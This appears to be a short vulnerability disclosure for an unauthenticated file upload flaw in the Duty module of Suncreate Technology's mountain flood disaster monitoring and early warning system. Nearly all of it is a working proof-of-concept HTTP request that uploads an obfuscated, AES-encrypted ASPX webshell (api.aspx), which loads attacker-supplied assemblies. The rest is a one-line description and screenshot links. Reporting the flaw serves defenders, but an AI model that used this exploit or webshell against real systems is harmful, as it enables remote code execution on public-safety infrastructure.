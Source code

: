 Suncreate Technology Co., Ltd.-Duty module of mountain flood disaster prevention monitoring and early warning system has file upload vulnerability

official website：https://www.istrong.cn/

poc
```
POST /Duty/AjaxHandle/UploadHandler.ashx HTTP/1.1
Host: xx.xx.xx.xx
Content-Length: 1410
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryB4tZ2o9YRDmhPXe7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryB4tZ2o9YRDmhPXe7
Content-Disposition: form-data; name="doc"

/
------WebKitFormBoundaryB4tZ2o9YRDmhPXe7
Content-Disposition: form-data; name="filetype"

1
------WebKitFormBoundaryB4tZ2o9YRDmhPXe7
Content-Disposition: form-data; name="ParentID"

1
------WebKitFormBoundaryB4tZ2o9YRDmhPXe7
Content-Disposition: form-data; name="Filedata"; filename="api.aspx"
Content-Type: application/xml

<%@ Page Language="C#" %>
<%@Import Namespace="System.Reflection"%>
<%@Import Namespace="System.IO"%>
<%@Import Namespace="System.Security.Cryptography"%>
<%
    try {
        string key = "900bc885d7553375";
        byte[] k = Encoding.Default.GetBytes(key);
        Session.Add("sky", key);
        StreamReader sr = new StreamReader(Request.InputStream);
        string line = sr.ReadLine();
        if (!string.IsNullOrEmpty(line))
        {

            byte[] c = Convert.FromBase64String(line);
            Assembly assembly = typeof(Environment).Assembly;
            RijndaelManaged rm =(RijndaelManaged) assembly.CreateInstance("System.Secur"+"ity.Crypto"+"graphy.Rijnda"+"elManaged");
            byte[] data=rm.CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length);
            Assembly.Load(data).CreateInstance("U").Equals(this.Context);
            sr.Close();
        }
    }
    catch{ }

%>
------WebKitFormBoundaryB4tZ2o9YRDmhPXe7--
```

Upload webshell directly without authorization

![WPS图片(1)](https://github.com/luoshaokai/cve/assets/138547607/d0b926e2-9c0d-41f3-b0f8-5d200baf79b6)
![WPS图片(2)](https://github.com/luoshaokai/cve/assets/138547607/203b57e8-529b-45cb-9e1c-4d08ba294fa7)

